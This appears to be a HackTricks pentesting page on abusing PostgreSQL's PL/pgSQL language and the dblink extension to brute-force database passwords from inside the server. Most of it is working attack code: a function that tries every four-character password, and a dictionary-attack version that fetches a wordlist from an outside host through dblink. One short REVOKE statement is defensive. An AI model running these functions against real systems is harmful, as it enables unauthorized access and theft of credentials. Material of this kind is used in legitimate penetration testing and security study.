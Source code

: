 # PL/pgSQL Password Bruteforce

<details>

<summary><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

PL/pgSQL, as a **fully featured programming language**, allows much more procedural control than SQL, including the **ability to use loops and other control structures**. SQL statements and triggers can call functions created in the PL/pgSQL language.

You can abuse this language in order to ask PostgreSQL to brute-force the users credentials, but it must exist on the database. You can verify it's existence using:

```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
     lanname | lanacl
    ---------+---------
     plpgsql |
```

By default, **creating functions is a privilege granted to PUBLIC**, where PUBLIC refers to every user on that database system. To prevent this, the administrator could have had to revoke the USAGE privilege from the PUBLIC domain:

```sql
REVOKE ALL PRIVILEGES ON LANGUAGE plpgsql FROM PUBLIC;
```

In that case, our previous query would output different results:

```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
     lanname | lanacl
    ---------+-----------------
     plpgsql | {admin=U/admin}
```

Note that for the following script to work **the function `dblink` needs to exist**. If it doesn't you could try to create it with&#x20;

```sql
CREATE EXTENSION dblink;
```

## Password Brute Force

Here how you could perform a 4 chars password bruteforce:

```sql
//Create the brute-force function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
                                username TEXT, dbname TEXT) RETURNS TEXT AS
$$
DECLARE
    word TEXT;
BEGIN
    FOR a IN 65..122 LOOP
        FOR b IN 65..122 LOOP
            FOR c IN 65..122 LOOP
                FOR d IN 65..122 LOOP
                    BEGIN
                        word := chr(a) || chr(b) || chr(c) || chr(d);
                        PERFORM(SELECT * FROM dblink(' host=' || host ||
                                                    ' port=' || port ||
                                                    ' dbname=' || dbname ||
                                                    ' user=' || username ||
                                                    ' password=' || word,
                                                    'SELECT 1') 
                                                    RETURNS (i INT));
                                                    RETURN word;
                        EXCEPTION
                            WHEN sqlclient_unable_to_establish_sqlconnection 
                                THEN
                                    -- do nothing
                    END;
                END LOOP;
            END LOOP;
        END LOOP;
    END LOOP;
    RETURN NULL;
END;
$$ LANGUAGE 'plpgsql';

//Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```

_Note that even brute-forcing 4 characters may take several minutes._

You could also **download a wordlist** and try only those passwords (dictionary attack):

```sql
//Create the function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
                                username TEXT, dbname TEXT) RETURNS TEXT AS
$$
BEGIN
    FOR word IN (SELECT word FROM dblink('host=1.2.3.4
                                            user=name
                                            password=qwerty
                                            dbname=wordlists',
                                            'SELECT word FROM wordlist')
                                        RETURNS (word TEXT)) LOOP
        BEGIN
            PERFORM(SELECT * FROM dblink(' host=' || host ||
                                            ' port=' || port ||
                                            ' dbname=' || dbname ||
                                            ' user=' || username ||
                                            ' password=' || word,
                                            'SELECT 1')
                                        RETURNS (i INT));
            RETURN word;

            EXCEPTION
                WHEN sqlclient_unable_to_establish_sqlconnection THEN
                    -- do nothing
        END;
    END LOOP;
    RETURN NULL;
END;
$$ LANGUAGE 'plpgsql'

//Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```

**Find**[ **more information about this attack in this paper**](http://www.leidecker.info/pgshell/Having\_Fun\_With\_PostgreSQL.txt)**.**

<details>

<summary><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
